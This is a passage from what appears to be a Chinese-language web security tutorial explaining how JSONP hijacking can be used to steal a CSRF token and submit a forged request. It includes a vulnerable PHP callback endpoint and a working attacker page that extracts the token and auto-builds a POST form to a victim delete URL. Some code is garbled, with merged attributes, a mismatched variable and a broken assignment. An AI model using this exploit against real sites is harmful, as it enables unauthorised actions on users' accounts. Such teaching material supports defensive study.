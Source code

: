 当用户在已经登录 abc 网站的情况下访问如上 `www.hacker.com/hack` 网页，那么用户的隐私数据就可能被攻击者劫持。

JSONP 绕过 token 防护进行 csrf 攻击

假设有个场景是这样：

服务端判断接收到的请求包，如果含有 htmlcallback 参数就返回 JSONP 格式的数据，否则返回正常页面。

代码如下：

```
<!-- callback.php -->
<?php
    header('Content-type: application/json');
//json数据
    $json_data ='{"customername1":"user1","password":"12345678"}';
if(isset($_GET["htmlcallback"])){
        $callback = $_GET["htmlcallback"];
//如果含有htmlcallback参数，输出jsonp格式的数据
        echo $htmlcallback ."(". $json_data .")";
}else{
        echo $json_data;
}
?>
```

对于场景，如果存在 JSONP 劫持劫持，我们就可以获取到页面中的内容，提取出 csrf_token，然后提交表单，造成 csrf 漏洞。

示例利用代码如下：

```
<html>
<head>
<title>test</title>
<metacharset="utf-8">
</head>
<body>
<divid="test"></div>
<scripttype="text/javascript">
function test(obj){
// 获取对象中的属性值
var content = obj['html']
// 正则匹配出参数值
var token=content.match('token = "(.*?)"')[1];
// 添加表单节点
var parent=document.getElementById("test");
var child=document.createElement("form");
    child.method="POST";
    child.action="http://vuln.com/del.html";
    child.id="test1"
    parent.appendChild(child);
var parent_1=document.getElementById("test1");
var child_1=document.createElement("input");
    child_1.type="hidden";child_1.;child_1.value=token;
var child_2=document.createElement("input");
    child_2.type="submit";
    parent_1.appendChild(child_1);
    parent_1.appendChild(child_2);
}
</script>
<scripttype="text/javascript"src="http://vuln.com/caozuo.html?htmlcallback=test"></script>
</body>
</html>
```
